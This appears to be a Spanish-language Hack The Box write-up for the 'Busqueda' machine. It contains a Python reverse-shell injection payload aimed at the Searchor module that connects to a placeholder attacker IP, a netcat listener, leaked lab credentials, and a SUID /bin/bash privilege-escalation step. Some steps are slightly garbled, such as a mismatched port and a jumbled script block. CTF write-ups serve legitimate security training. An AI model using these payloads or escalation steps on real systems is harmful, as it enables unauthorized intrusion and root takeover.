 ```yaml
---
layout: single
title: Busqueda - Machines - Hack The Box
excerpt: "Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root."
date: 2023-08-23
classes: wide
header:
  teaser: /assets/images/htb-writeup-busqueda/busqueda_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - burpsuite
  - Command Injection
  - python
  - RCE
  
---
```


![](/assets/images/htb-writeup-busqueda/busqueda_logo.png)

Busqueda es una máquina Linux de dificultad fácil que implica explotar una vulnerabilidad de inyección de comandos presente en un módulo de Python. Al aprovechar esta vulnerabilidad, obtenemos acceso a nivel de usuario a la máquina. A escalar privilegios a root, descubrimos credenciales dentro de un archivo de configuración de Git, lo que nos permite iniciar sesión en un local Servicio de gitea. Además, descubrimos que se puede ejecutar un script de verificación del sistema con privilegios de root. por un usuario específico. Al utilizar este script, enumeramos los contenedores Docker que revelan las credenciales para el
cuenta Gitea del usuario administrador. Análisis adicional del código fuente del script de verificación del sistema en un El repositorio de Git revela un medio para explotar una referencia de ruta relativa, lo que nos permite la ejecución remota de código (RCE) con privilegios de root.

# 1. Enumeración
   
Iniciamos con un escaneando de puertos de la máquina con Nmap.

## Portscan
Encontramos dos puertos abiertos. 
•	22 de SSH 
•	80 de HTTP

![](/assets/images/htb-writeup-busqueda/portscan.png)

Realizamos un “Curl” para obtener información adicional.

![](/assets/images/htb-writeup-busqueda/curl.png)

Agregamos el dominio encontrado en el archivo “/etc/hosts” para que sepa a donde resolver cuando apuntemos a él.

![](/assets/images/htb-writeup-busqueda/hosts.png)

## Website
Navegamos hasta el servicio web. Encontramos que es una aplicación que se utiliza para realizar búsquedas con diferentes buscadores.

•	https://github.com/ArjunSharda/Searchor.

![](/assets/images/htb-writeup-busqueda/web.png)

## Burp Suite
Vamos a realizar una búsqueda cualquiera e interceptamos la petición con BurpSuite.

![](/assets/images/htb-writeup-busqueda/burp.png)

# 2. Explotación

Realizamos la busqueda de posible exploit para el buscardor "searchor".

•	Exploit: https://github.com/jonnyzar/POC-Searchor-2.4.2

Debemos inyectar una carga en la peticion interceptada por Burp.

Carga Util:

•	', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('IP-ATACANTE',PORT-ATACANTE));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

Interceptamos la petición con BurpSuite y agregamos nuestra carga útil.

![](/assets/images/htb-writeup-busqueda/burp2.png)

Paralelamente debemos ponernos en escucha por el puerto donde vamos a recivbir nuestra conexión (4444) y enviamos la petición desde Burp Suit.
•	nc -nlvp 444
Luego de enviar la peicion, vamos a recibir nuestra shell de la maquina, ahora generamos una terminal ( tty) mas facil de maenjar a través de Python y capturamos nuestra flag de usuario estandar.

![](/assets/images/htb-writeup-busqueda/rever.png)

## 3. Escalación de Privilegios

Listamos el directorio /var/www/app y encontramos “.git”.

![](/assets/images/htb-writeup-busqueda/list.png)

Nos dirigimos al directorio encontrado y volvemos a listar. Ahora encontramos un archivo de configuración.

![](/assets/images/htb-writeup-busqueda/config.png)

Leemos el archivo y encontramos un usuario y una contraseña asociado a un acceso a un dominio.

![](/assets/images/htb-writeup-busqueda/config2.png)

Nos conectamos por ssh con esas credenciales.

![](/assets/images/htb-writeup-busqueda/ssh.png)

Reutilizamos la contraseña para saber que permisos SUDO tiene el usuario “svc”.

![](/assets/images/htb-writeup-busqueda/sudo.png)

No podemos leer el archivo, pero podemos ver algunos de los parámetros permitidos.

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py *

![](/assets/images/htb-writeup-busqueda/sudo2.png)

![](/assets/images/htb-writeup-busqueda/sudo3.png)

•	Enlace: https://docs.docker.com/engine/reference/commandline/inspect/

•	sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db

![](/assets/images/htb-writeup-busqueda/sudo4.png)


Credenciales:

•	yuiu1hoiu4i5ho1uh

•	jI86kGUuj87guWr3RyF



#!/bin/bash 
chmod +s /bin/bash
cat full-checkup.sh
chmod +x full-checkup.sh


![](/assets/images/htb-writeup-busqueda/sudo5.png)

•	sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

•	ls -l /bin/bash

•	bash -p

Luego de cambiar a usuario root, capturamos nuestra flag.

•	whoami

•	cat /root/root.txt

![](/assets/images/htb-writeup-busqueda/sudo6.png)
